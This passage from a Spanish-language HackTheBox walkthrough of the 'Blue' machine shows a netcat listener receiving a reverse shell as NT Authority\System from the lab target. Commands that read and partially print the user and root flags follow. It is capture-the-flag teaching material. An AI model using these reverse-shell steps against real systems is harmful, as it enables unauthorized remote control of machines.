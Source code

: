 Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `NT Authority/System`

```bash
rlwrap nc -lvnp 4564
listening on [any] 4564 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system
```

## ESCALADA DE PRIVILEGIOS

En esta ocasión el escalamiento de privilegios no fue necesario debido a que la explotación del CVE nos permitió el acceso al usuario administrador directamente, dando una ventaja en cuando a la búsqueda de vías potenciales de escalamiento.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
cd C:\
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt
set /P user=<"C:\Users\haris\Desktop\user.txt"
echo.%user:~0,10%
05789868dd
```

```bash
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt
set /P root=<"C:\Users\Administrator\Desktop\root.txt"
echo.%root:~0,10%
3237c9c2dc
```

¡Hemos logrado completar la máquina `Blue` de HackTheBox!

<p align="center">
<img src="/assets/images/blue/03-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
